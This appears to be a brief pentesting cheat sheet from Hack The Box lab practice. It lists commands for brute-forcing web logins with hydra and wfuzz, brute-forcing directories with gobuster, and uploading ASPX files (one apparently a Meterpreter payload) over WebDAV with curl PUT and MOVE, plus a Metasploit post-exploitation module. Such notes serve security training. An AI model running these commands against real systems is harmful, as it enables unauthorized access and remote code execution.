 # web-payload  
Portal for any payload  
## Brute force web application 
### Basic Authentication  
`hydra -L usernames -P passwords -s 8080 -f <domain> http-get /`  
`wfuzz -u http://ethereal.htb:8080 --basic alan:FUZZ -w passwords.txt`  
to enumerate every subdoamin there has to be an entry for that subdomain in /etc/hosts that points to the ip of the box , that’s why I added the HOST HTTP header (-H "HOST:FUZZ.redcross.htb") , it solves the problem.***  
## Directory Bruteforcing
`gobuster -w <Wordlist> -u http://10.10.10.15 -t 50 -x aspx,txt,html`  
## Brute force with wfuzz  
`wfuzz -c --hh 11 -u "https://intra.redcross.htb/pages/actions.php" -X POST -d "user=FUZZ&pass=FUZZ&action=login" -w top-usernames-shortlist.txt`  
## WebDav
`davtest -url http://<IP>`  
### Manual  
```
echo 0xdf > test.txt  
root@kali# curl -X PUT http://10.10.10.15/df.txt -d @test.txt  
root@kali# curl http://10.10.10.15/df.txt  
```
or  
  
`curl -X PUT http://10.10.10.15/df.aspx -d @test.txt`  
  
### Manual for MOVE Method  
```
curl -X MOVE -H 'Destination:http://10.10.10.15/0xdf.aspx' http://10.10.10.15/0xdf.txt  
curl -X PUT http://10.10.10.15/met.txt --data-binary @met.aspx 
```
  
## Metasploit post exploitation
`post/multi/recon/local_exploit_suggester`  
